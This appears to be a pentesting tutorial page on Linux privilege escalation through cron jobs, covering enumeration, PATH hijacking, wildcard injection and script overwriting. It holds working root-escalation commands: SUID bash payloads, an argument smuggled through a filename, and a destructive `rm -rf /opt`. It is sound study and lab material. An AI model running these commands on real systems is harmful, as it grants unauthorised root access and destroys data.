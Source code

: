 # Cron Jobs

## Theory

Cron is a job scheduler in Unix-based operating systems. Cron Jobs are used for scheduling tasks by executing commands at specific dates and times on the server.\
By default, Cron runs as root when executing _/etc/crontab_, so any commands or scripts that are called by the crontab will also run as root. It can be an intresting privelege escalation path.

## Practice

### Misc Cron Jobs

{% tabs %}
{% tab title="Enumerate" %}
You may want to enumerate cron jobs with the following commands

```bash
#Print jobs with Crontab binary
crontab -l
crontab -l -u username

#Directly cat files
cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"

#From logs
cat /var/log/syslog | grep "CRON"

#In /etc/ and subfolders
cat /etc/crontab
cat /etc/cron*/*

# In /var/spool
cat /var/spool/cron/*
cat /var/spool/cron/crontabs/*
```
{% endtab %}

{% tab title="Monitor" %}
By using [**pspy**](https://github.com/DominicBreuker/pspy), you can fetch processes without root privileges. It can be useful to detect cron jobs.

```bash
# -p: print commands to stdout
# -f: print file system events to stdout
# -i: interval in milliseconds
./pspy64 -pf -i 1000
```

It is also possible to monitor processes using the `watch` command. For example, we can grep on all occurrences of the word "pass". We may find clear-text credentials like that.

```bash
watch -n 1 "ps -ef | grep pass"
```
{% endtab %}
{% endtabs %}

### Cron Path&#x20;

{% tabs %}
{% tab title="Enumerate" %}
For example, inside _/etc/crontab_ you can find the PATH: `PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`

We need to check if we have **permissions** to write on each path, if a the binary in the cron job is specified without the full command path, we may be able to exploit it. &#x20;

```bash
$ cat /etc/crontab

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

17 *    * * *   root    path-exploit.sh
```
{% endtab %}

{% tab title="Exploit" %}
We need to check if we have permission to write each path.

```bash
ls -al /usr/local/
ls -al /usr/
ls -al /
```

Assume we can write an arbitrary binary file under **`/home/user`**, and its specified in the crontab PATH as in the example. We can create a payload in there.&#x20;

```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/path-exploit.sh
chmod +x /home/user/path-exploit.sh
```

Then wait for the job to execute.&#x20;

```bash
# Run SUID Shell after exploit
/tmp/bash -p
```
{% endtab %}
{% endtabs %}

### Wildcard Injection

{% tabs %}
{% tab title="Enumerate" %}
If a cron job script running as root contains an `*` inside a command, then you may be able to exploit it.

```bash
$ cat /etc/crontab

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

17 *    * * *   root    rsync -a *.sh rsync://host.back/src/rbd
```
{% endtab %}

{% tab title="Exploit" %}
The exploit will depend of the binary. Using the previous example, we can use following commands to exploit it.

```bash
touch "-e sh myscript.sh"

echo '<PAYLOAD>' > myscript.sh
```

Read the following page for more wildcard exploitation tricks: [HERE](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks)
{% endtab %}
{% endtabs %}

### File Overwriting and Symlink

{% tabs %}
{% tab title="Enumerate" %}
If you **can modify a cron job script** executed by root, or it use a **directory where you have full access**, the we can exploit it.

```bash
$ cat /etc/crontab

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

17 *    * * *   root    /opt/crons/overwrite.sh
```
{% endtab %}

{% tab title="Exploit" %}
If we have write permissions on the script, we can exploit by overwriting it:

```bash
#Check you have permissions
ls -la /opt/crons/overwrite.sh

#Overwrite
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /opt/crons/overwrite.sh

#Wait until it is executed
/tmp/bash -p
```

If we have **full access over the directory**, maybe it could be useful to delete that folder and **create a symlink folder to another one** serving a script controlled by you

```bash
#Check you have permissions
ls -la /

#Remove folder and create the symlink target
rm -rf /opt
mkdir /tmp/crons

#Create a new script
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /tmp/crons/overwrite.sh

#Create symlinl folder
ln -d -s /tmp/crons/ /opt/crons/
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation" %}

{% embed url="https://tryhackme.com/room/linuxprivescarena" %}
